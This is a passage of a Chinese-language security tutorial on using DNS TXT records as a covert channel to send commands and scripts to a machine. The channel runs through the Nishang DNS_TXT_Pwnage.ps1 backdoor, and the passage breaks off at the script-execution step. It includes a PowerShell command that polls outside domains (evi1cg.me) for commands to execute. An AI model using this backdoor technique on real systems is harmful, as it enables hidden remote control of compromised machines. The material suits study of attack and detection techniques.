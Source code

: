 由于这个脚本比较小，所以只生产两行：

![Alt text](http://drops.javaweb.org/uploads/images/e3b68059034c6c0457bae9776ac6756bf445a350.jpg)

可以分别将这两行内容按顺序添加到 1.ps.domain.com到2.ps.domian.com中如下图：

![Alt text](http://drops.javaweb.org/uploads/images/1731ee80d007bdcc85a250c192640223eb93ce1a.jpg)

查看TXT，可以看到内容都已经添加好了：

![Alt text](http://drops.javaweb.org/uploads/images/8bc20c45292615fa6fdbd3ce8310ee01ae958207.jpg)

0x02 执行Powershell
=====

添加完了TXT记录以后，通过[DNS_TXT_Pwnage.ps1](https://raw.githubusercontent.com/samratashok/nishang/master/Backdoors/DNS_TXT_Pwnage.ps1)来执行这些脚本。

> DNS_TXT_Pwnage.ps1 是一个通过DNS TXT来接收命令或者脚本的一个后门脚本

这里还需要添加两条记录，strat与stop，具体如下图：

![Alt text](http://drops.javaweb.org/uploads/images/749079129f3b1740d42ceda0cbd97a915ee11fc1.jpg)

1.执行命令
------

```
PS F:\DNS> . .\DNS_TXT_Pwnage.ps1
PS F:\DNS> DNS_TXT_Pwnage -startdomain start.evi1cg.me -cmdstring start -commanddomain command.evi1cg.me -psstring test -psdomain xxx.evi1cg.me -
Subdomains 1 -StopString stop

```

> 解释一下参数：

*   **startdomain**为创建的_start.domain_，返回一个字符串；
*   **cmdstring**为任意输入的字符串；
*   **commanddomain**为创建的执行命令TXT记录的域名；
*   **psstring**为任意输入的字符串；
*   **psdomain**为创建的执行脚本TXT记录的域名或子域名 ；
*   **Subdomains**为执行脚本创建TXT记录的个数（如1.2中创建的脚本，该值为2）；
*   **StopString**为任意输入的字符串。

此处比较重要的参数为**startdomain**，他会与我们输入的cmdstring以及psstring进行比较，如果与cmdstring值相等，则执行**commanddomain**即命令，与psstring相等则执行**psdomain**即脚本。

上面为执行命令，所以cmdstring值我们输入为start，与start.evi1cg.me的txt记录值相等，psstring随便输入，不留空就行。执行结果如下图：

![Alt text](http://drops.javaweb.org/uploads/images/aed46d02fd8a68ca2f204afa63367c20610decac.jpg)

我们可以通过修改command.domain的TXT值来执行不同的命令。比如Get-Host：

![Alt text](http://drops.javaweb.org/uploads/images/3abc9d3226291b93b12b1d08307b940e3302d43e.jpg)

2.执行脚本
------
